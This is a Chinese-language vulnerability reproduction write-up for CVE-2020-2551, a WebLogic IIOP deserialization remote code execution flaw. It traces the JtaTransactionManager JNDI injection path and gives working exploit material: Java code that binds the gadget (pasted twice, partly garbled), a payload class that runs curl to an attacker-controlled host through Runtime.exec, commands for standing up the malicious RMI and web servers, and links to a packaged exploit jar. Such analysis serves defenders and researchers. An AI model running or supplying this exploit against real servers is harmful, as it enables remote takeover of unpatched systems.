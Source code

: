 # （CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce

> 原文：[https://www.zhihuifly.com/t/topic/3232](https://www.zhihuifly.com/t/topic/3232)

## （CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求

```
Hashtable<String, String> env = new Hashtable<String, String>();
// add wlsserver/server/lib/weblogic.jar to classpath,else will error.
env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
env.put("java.naming.provider.url", rhost);
Context context = new InitialContext(env);
// get Object to Deserialize
JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
jtaTransactionManager.setUserTransactionName(rmiurl);

Remote remote = createMemoitizedProxy(createMap(“pwned”+System.nanoTime(), jtaTransactionManager), Remote.class);

context.rebind(“Y4er”+System.nanoTime(), remote);

Hashtable<String, String> env = new Hashtable<String, String>();

// add wlsserver/server/lib/weblogic.jar to classpath,else will error.

env.put(“java.naming.factory.initial”, “weblogic.jndi.WLInitialContextFactory”);

env.put(“java.naming.provider.url”, rhost);

Context context = new InitialContext(env);

// get Object to Deserialize

JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();

jtaTransactionManager.setUserTransactionName(rmiurl); `Remote remote = createMemoitizedProxy(createMap(“pwned”+System.nanoTime(), jtaTransactionManager), Remote.class);

context.rebind(“Y4er”+System.nanoTime(), remote);` 
```

你肯定疑惑**JtaTransactionManager**和**weblogic.jndi.WLInitialContextFactory**是从哪来的？

1.  JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2.  weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

**E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725**

![image](img/f73098524f05b9a3ff5c62871ce50bfa.png)

此时var2是序列化传入的**com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager**，跟进**readValue()**

![image](img/414644d260db3536c82470679ebe11fa.png)

跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject

![image](img/ca009db82c573b15efb63378e8a66311.png)

然后通过反射调用**JtaTransactionManager**的**readObject()**跟进

![image](img/6075b5415a210f73bebdde963a2d4087.png)

到此之后就是Weblogic的CVE-2018-3191 spring JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进**initUserTransactionAndTransactionManager()**

![image](img/55a8889af4b846ab78d98414e7f4da36.png)

如果**userTransaction**等于空有**userTransactionName**属性则进入**lookupUserTransaction()**，跟进

![image](img/4a140f4c1b605bb300e5ece452bd3ac8.png)

此时**lookup()**参数可控

![image](img/219d75ca4a0ecc57dd787763208619c2.png)

**lookup**加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用

### 漏洞复现

```
https://github.com/ianxtianxt/CVE-2020-2551 
```

**打包好的jar包**

```
https://download.0-sec.org/download/weblogic_CVE_2020_2551.zip 
```

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

```
package payload;

import java.io.IOException;

public class exp {

```
public exp() {
    String cmd = "curl http://172.16.1.1/success";
    try {
        Runtime.getRuntime().exec(cmd).getInputStream();
    } catch (IOException e) {
        e.printStackTrace();
    }
} 
```

} 
```

**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

```
python -m http.server --bind 0.0.0.0 80 
```

命令行运行jar包

```
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp 
```

实际效果如图

![image](img/5e83197b8d64239528803db49418b727.png)

## 参考链接

> https://y4er.com/post/weblogic-cve-2020-2551/